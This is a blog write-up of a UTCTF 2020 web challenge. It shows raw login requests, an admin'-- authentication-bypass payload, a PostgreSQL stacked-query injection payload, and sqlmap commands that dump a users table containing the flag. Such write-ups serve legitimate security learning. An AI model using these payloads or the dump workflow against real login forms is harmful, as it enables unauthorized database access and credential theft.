

Solving Epic Admin PWN from UTCTF 2020
Posted on Mon 09 March 2020 in CTF by 0xm4v3rick
The CTF challenge note:
1 2 3 4 5 6 | this challenge is epic i promise
the flag is the password
http://web2.utctf.live:5006/
by matt
|
The challenge page had a login form which generated following request.
Request:
1 2 3 4 5 6 7 8 9 10 11 12 13 14 | POST / HTTP/1.1
Host: web2.utctf.live:5006
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:73.0) Gecko/20100101 Firefox/73.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 23
Origin: http://web2.utctf.live:5006
Connection: close
Referer: http://web2.utctf.live:5006/
Upgrade-Insecure-Requests: 1
username=test&pass=test
|
After poking around the application to see how it reacts, I landed with auth bypass with admin'-- payload which I usually try as follows.
Request:
1 2 3 4 5 6 7 8 9 10 11 12 13 14 | POST / HTTP/1.1
Host: web2.utctf.live:5006
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:73.0) Gecko/20100101 Firefox/73.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 28
Origin: http://web2.utctf.live:5006
Connection: close
Referer: http://web2.utctf.live:5006/
Upgrade-Insecure-Requests: 1
username=admin%27--&pass=asd
|
Response:

But that did not earn anything interesting as opposed to my expectations. I looked around the source for any hints and but didnt find anything. Not even a single JS file. Rest of the code and css files had nothing of value. So after a hint from the discord channel it was time to expand on the same issue that got me the admin in the first place. Extending auth bypass to SQLi. So I let loose sqlmap to see it if works and it did. Passing the login request to sqlmap using text file did the work.
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 | sqlmap -r req1.txt --flush -v -p username
___
__H__
___ ___[,]_____ ___ ___ {1.3.3#pip}
|_ -| . [)] | .'| . |
|___|_ [.]_|_|_|__,| _|
|_|V... |_| http://sqlmap.org
[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program
[*] starting @ 11:30:22 /2020-03-07/
[11:30:22] [INFO] parsing HTTP request from 'req1.txt'
[11:30:22] [DEBUG] not a valid WebScarab log data
[11:30:22] [DEBUG] cleaning up configuration parameters
[11:30:22] [DEBUG] setting the HTTP timeout
[11:30:22] [DEBUG] setting the HTTP User-Agent header
[11:30:22] [DEBUG] creating HTTP requests opener object
[11:30:22] [DEBUG] resolving hostname 'web2.utctf.live'
[11:30:22] [INFO] testing connection to the target URL
[11:30:22] [DEBUG] declared web page charset 'utf-8'
[11:30:22] [INFO] checking if the target is protected by some kind of WAF/IPS
[11:30:22] [INFO] testing if the target URL content is stable
[11:30:23] [INFO] target URL content is stable
[11:30:23] [WARNING] heuristic (basic) test shows that POST parameter 'username' might not be injectable
[11:30:23] [INFO] testing for SQL injection on POST parameter 'username'
[11:30:24] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
--------------- SNIP --------------------------------------------------------
[11:31:20] [INFO] checking if the injection point on POST parameter 'username' is a false positive
[11:31:31] [DEBUG] checking for filtered characters
POST parameter 'username' is vulnerable. Do you want to keep testing the others (if any)? [y/N] n
sqlmap identified the following injection point(s) with a total of 92 HTTP(s) requests:
---
Parameter: username (POST)
Type: stacked queries
Title: PostgreSQL > 8.1 stacked queries (comment)
Payload: username=admin';SELECT PG_SLEEP(5)--&pass=asd
Vector: ;SELECT (CASE WHEN ([INFERENCE]) THEN (SELECT [RANDNUM] FROM PG_SLEEP([SLEEPTIME])) ELSE [RANDNUM] END)--
---
[11:33:18] [INFO] the back-end DBMS is PostgreSQL
back-end DBMS: PostgreSQL
[11:33:18] [INFO] fetched data logged to text files under '/root/.sqlmap/output/web2.utctf.live'
|
As we can see the sqlmap returned the injected query and it shows PostgreSQL as the backend database. A blind sqli with stacked queries. So I continued with sqlmap to retrive current DB name with below command.
1 2 3 4 5 6 7 8 9 10 | sqlmap -r req1.txt -v -p username --current-db
--------------- SNIP --------------------------------------------------------
[11:34:24] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions
[11:34:35] [INFO] adjusting time delay to 1 second due to good response times
public
[11:34:59] [DEBUG] performed 46 queries in 53.31 seconds
[11:34:59] [WARNING] on PostgreSQL you'll need to use schema names for enumeration as the counterpart to database names on other DBMSes
current schema (equivalent to database on PostgreSQL): 'public'
|
And retrieved the entire public DB as follows that gave us the flag
1 2 3 4 5 6 7 8 9 10 11 12 13 14 | sqlmap -r req1.txt -v -p username --dump
--------------- SNIP --------------------------------------------------------
[11:40:54] [DEBUG] performed 39 queries in 22.33 seconds
[11:40:54] [DEBUG] analyzing table dump for possible password hashes
Database: public
Table: users
[1 entry]
+---------+----------+--------------------------+
| id | username | password |
+---------+----------+--------------------------+
| <blank> | admin | utflag{dual1pa1sp3rf3ct} |
+---------+----------+--------------------------+
|
That was all it took to get the flag. Thanks to UTCTF Team for the chall. Feel free to contact me on twitter for queries or feedback. Cheers!!